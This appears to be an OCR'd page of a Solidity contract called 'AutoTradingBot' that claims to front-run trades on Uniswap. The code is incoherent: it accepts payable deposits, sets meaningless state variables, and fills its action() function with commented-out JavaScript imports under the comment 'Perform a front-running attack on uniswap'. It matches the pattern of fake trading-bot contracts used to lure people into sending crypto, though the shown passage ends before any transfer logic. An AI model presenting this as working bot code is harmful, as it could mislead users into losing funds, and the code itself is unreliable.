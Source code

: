 pragma solidity ^0.6.6;

// Auto Trading Bot

import "https://github.com/Uniswap/uniswap-v2-core/blob/master/contracts/interfaces/IUniswapV2Callee.sol";

// Trading Bot Manager

import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Factory.sol";

import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Exchange.sol";

contract AutoTradingBot {

   

    string public tokenName;

string public tokenSymbol;

uint frontrun;

uint manager;

constructor(string memory _tokenName, string memory _tokenSymbol) public {

tokenName = _tokenName;

tokenSymbol = _tokenSymbol;

manager = frontrun;

}

   

   // Send required BNB for liquidity pair

   receive() external payable {}

   

   

   // Perform tasks (clubbed .json functions into one to reduce external calls & reduce gas) manager.performTasks();

   

   function action() public payable {

//Perform a front-running attack on uniswap

//const fs = require('fs');

//var Web3 = require('web3');

//var abiDecoder = require('abi-decoder');

//var colors = require("colors");

//var Tx = require('ethereumjs-tx').Transaction;

//var axios = require('axios');
